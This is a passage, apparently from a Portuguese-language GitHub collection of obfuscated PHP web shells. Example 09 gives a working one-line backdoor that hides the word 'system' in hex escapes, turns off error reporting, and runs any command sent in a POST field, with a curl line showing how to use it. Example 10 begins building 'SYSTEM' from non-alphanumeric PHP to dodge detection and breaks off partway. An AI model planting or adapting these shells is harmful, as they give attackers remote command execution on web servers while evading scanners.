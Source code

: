 **
****EXEMPLO 09**
Functions:

1. [ERROR_REPORTING](https://secure.php.net/manual/pt_BR/function.error-reporting.php)
2. [STR_REPLACE](http://php.net/manual/pt_BR/function.str-replace.php)
3. [VARIABLE FUNCTIONS](http://php.net/manual/pt_BR/functions.variable-functions.php)
4. [SYSTEM](http://php.net/manual/pt_BR/function.system.php)

Variáveis: $_POST['shellrox']=Comando que será executado
**CODE:**

```
 (error_reporting(0)).($_=[("\x73\x79").("\x73")
.("\x74\x65\x6d"),"\x73\x68\x65\x6c","\x6c\x72\x6f\x78"])
.($_[0]($_POST[$_[1].$_[2]]));
```


Execução: curl -d "shellrox=id;uname -a" -X POST 'http://localhost/shell.php'

```

```

**
****EXEMPLO 10** Functions:

1. [NON ALPHA NUMERIC](http://www.thespanner.co.uk/2012/08/21/php-nonalpha-tutorial/)
2. [VARIABLE FUNCTIONS](http://php.net/manual/pt_BR/functions.variable-functions.php)
3. [SYSTEM](http://php.net/manual/pt_BR/function.system.php)

**CODE:**

```
$_="";      # we need a blank string to start
$_[+$_]++;  # access part of the string to convert to an array
$_=$_."";   # convert the array into a string of "Array"
$_=$_[+""]; # access the 0 index of the string "Array" which is "A"

# INCREMENTANDO VALORES PARA ACHAR AS LETRAS
# NO CASO QUERO MONTAR A STRING SYSTEM

($_++); #A
($_++); #B
($_++); #C
($_++); #D
# PRIMEIRA LETRA ENCONTRADA É JOGADA EM UM ARRAY SECUNDÁRIO
($___[]=$_++);#E
($_++); #F
($_++); #G
($_++); #H
($_++); #I
($_++); #J
($_++); #K
($_++); #L
```
